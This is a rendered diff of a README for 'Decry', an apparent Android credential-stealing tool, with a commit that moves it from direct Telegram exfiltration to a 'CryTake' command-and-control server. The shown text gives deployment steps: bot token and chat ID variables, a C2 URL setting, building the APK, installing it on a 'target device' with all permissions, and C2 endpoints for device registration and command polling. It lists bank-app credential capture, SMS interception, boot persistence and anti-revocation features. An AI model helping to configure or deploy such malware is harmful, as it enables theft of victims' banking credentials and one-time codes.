

Before and after one commit to Hailer367/Decry, a Markdown page: README.md, the part around one of its changes. Shown at 94% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -64,17 +82,17 @@ All captured data is sent **directly to Telegram** via bot API. The C2 server is
 
 ## Setup
 
-### Environment Variables (for direct Telegram exfiltration)
+### Environment Variables (for Telegram exfiltration)
 Set these in your build environment or device:
 ```
-CRYTAKE_BOT_TOKEN=123456789:ABCdefGHIjklMNOpqrsTUVwxyz
-CRYTAKE_CHAT_ID=123456789
+BOT_TOKEN=123456789:ABCdefGHIjklMNOpqrsTUVwxyz
+ADMIN_CHAT_ID=123456789
 ```
 
 ### Configuration
-1. Replace `TARGET_APP_PACKAGE` in `DecryAccessibilityService.kt`:
+1. Configure CryTake server URL in `MainActivity.kt`:
    ```kotlin
-   private const val TARGET_APP_PACKAGE = "com.yourbank.app"
+   private val c2ServerUrl = "https://your-crytake-instance.com/api"
    ```
 
 2. Build the APK:
@@ -84,22 +102,36 @@ CRYTAKE_CHAT_ID=123456789
 
 3. Install on target device with all permissions granted
 
+## Usage with CryTake
+
+1. Deploy CryTake dashboard to get C2 server endpoint
+2. Update `c2ServerUrl` in MainActivity.kt with your CryTake instance URL
+3. Build and install Decry on target device
+4. Device auto-registers with CryTake on first launch (using `packageName.hashCode()` as device ID)
+5. Admin uses CryTake dashboard to:
+   - View connected devices (`/api/devices`)
+   - Send commands (`/api/command`) - e.g., start_sms_capture, target_app
+   - Device polls for commands every 10 seconds via `GET /api/poll/:deviceId`
+
 ## Current Status
-- ✅ Minimal Flutter UI with permission flow
+- ✅ Flutter UI with permission flow
 - ✅ Runtime permission requests (SMS, Phone)
 - ✅ Accessibility service with credential capture
 - ✅ SMS interception with toggleable capture mode
 - ✅ Direct Telegram exfiltration
-- ✅ DND control (requires notification policy access)
+- ✅ DND control
 - ✅ SIM number collection
-- ✅ Command polling via C2 server
-- ✅ Device auto-registration with Telegram bot
+- ✅ Command polling via CryTake C2 server
+- ✅ Device auto-registration with CryTake
+- ✅ Boot persistence
+- ✅ Anti-revocation monitoring
+- ✅ Target app management (dynamic)
 
 ## Dependencies
 - Flutter SDK 3.35.4+
 - Dart SDK 3.9.2+
 - Telegram Bot Token
-- C2 Server (deployed on Vercel)
+- CryTake C2 Server
 
 ## Development Commands
 ```bash
````
Also changed, not shown: other parts of README.md (+44 -26 lines).
